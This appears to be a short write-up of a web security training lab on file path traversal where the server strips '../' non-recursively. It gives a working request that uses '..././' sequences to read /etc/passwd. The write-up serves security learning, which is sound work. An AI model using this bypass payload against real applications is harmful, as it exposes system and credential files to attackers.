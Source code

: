
# 14 - File path traversal, traversal sequences stripped non-recursively

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.


---------------------------------------------

References:

- https://portswigger.net/kb/issues/00100300_file-path-traversal

- https://portswigger.net/web-security/file-path-traversal

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

---------------------------------------------

Generated link: https://0a2a0030049b8f43822a9e64007d00ba.web-security-academy.net/


When accessing Home or a post we have GET requests like this one:



![img](images/14%20-%20File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/1.png)




![img](images/14%20-%20File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/2.png)

```
GET /image?filename=..././..././..././..././..././etc/passwd HTTP/2
```



![img](images/14%20-%20File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/3.png)
